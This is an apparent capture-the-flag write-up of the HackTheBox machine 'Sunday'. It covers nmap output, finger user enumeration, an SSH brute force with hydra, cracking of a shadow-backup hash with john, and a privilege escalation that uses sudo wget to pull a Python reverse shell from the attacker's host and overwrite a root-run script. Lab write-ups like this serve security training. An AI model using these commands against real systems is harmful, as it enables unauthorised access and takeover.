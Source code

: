### Scan
```

Host is likely running OpenBSD/Cisco/Oracle


PORT    STATE SERVICE
79/tcp  open  finger
111/tcp open  rpcbind
515/tcp open  printer


PORT    STATE SERVICE VERSION
79/tcp  open  finger?
|_finger: No one logged on\x0D
| fingerprint-strings: 
|   GenericLines: 
|     No one logged on
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq: 
|_    Login Name TTY Idle When Where
111/tcp open  rpcbind 2-4 (RPC #100000)
515/tcp open  printer


PORT      STATE SERVICE
79/tcp    open  finger
111/tcp   open  rpcbind
515/tcp   open  printer
6787/tcp  open  smc-admin
22022/tcp open  unknown


PORT      STATE SERVICE VERSION
6787/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: 400 Bad Request
22022/tcp open  ssh     OpenSSH 8.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:00:94:32:18:60:a4:93:3b:87:a4:b6:f8:02:68:0e (RSA)
|_  256 da:2a:6c:fa:6b:b1:ea:16:1d:a6:54:a1:0b:2b:ee:48 (ED25519)

```
### Enumeration
finger? - simple network protocols for the exchange of human-oriented status and user information. a relic of a dif time
`finger @10.10.10.76` yields no results, so we can user pentest monkey script for user enum
`./finger-user-enum.pl -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 10.10.10.76`
Only users with valid IP are sunny and sammy![Image](/assets/Screenshot 2024-10-08 at 4.57.28 PM.png)
We can brute force ssh with hydra and rockyou (or be big brain and use box name)`sunday`
`hydra -l sunny -P /usr/share/wordlists/rockyou.txt 10.10.10.76 -s 22022 ssh`
![Image](/assets/Screenshot 2024-10-08 at 5.03.15 PM.png)
SSH in with `ssh sunny@10.10.10.76 -p 22022`
### Priv Esc
root troll priv as sunny?
go to root directory, and go to backup dir. thats not usually there boxo
we find shadow backup and cat it ![Image](/assets/Screenshot 2024-10-08 at 5.07.19 PM.png)
see user sammy hash to crack. (no root, come back later)
`john --wordlist=/usr/share/wordlists/rockyou.txt sammy.hash`
`cooldude!`![Image](/assets/Screenshot 2024-10-08 at 5.12.04 PM.png)
ssh to sammy
sudo wget priv as sammy
lets use wget on sammy to overwrite root troll and run it as sunny.
create a reverse py shell (pentest monkey )
serve with py server and overwrite w wget
`sudo wget http://10.10.14.11:8000/tmp.py -0 /root/troll`
![Image](/assets/Screenshot 2024-10-08 at 5.21.53 PM.png)
Then, quickly (5s), execute `sudo /root/troll` as sunny. If your listener is set up, you'll get root.
The script is rewritten every 5 seconds, so be quick!![Image](/assets/Screenshot 2024-10-08 at 5.32.10 PM.png)
ROOT:a50977c381dd35e6a1ee3ee5e7041ce4